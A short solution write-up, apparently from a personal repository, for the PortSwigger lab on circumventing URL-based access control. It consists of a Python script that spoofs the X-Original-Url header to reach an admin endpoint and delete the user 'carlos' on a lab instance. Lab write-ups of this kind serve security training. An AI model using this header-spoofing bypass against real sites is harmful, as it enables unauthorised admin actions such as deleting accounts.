 # Lab: URL-based access control can be circumvented

Link to lab: https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented

## Solution

```python
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup


url = 'https://0a7f00aa038d6f64c6b65f9900e700b6.web-security-academy.net/'

headers = {
    'X-Original-Url': '/admin/delete?username=carlos',
}

params = {
    'username': 'carlos',
}

response = requests.get(
    url + 'login',
    params=params,
    headers=headers,
    verify=False,
)

print(response.text)
```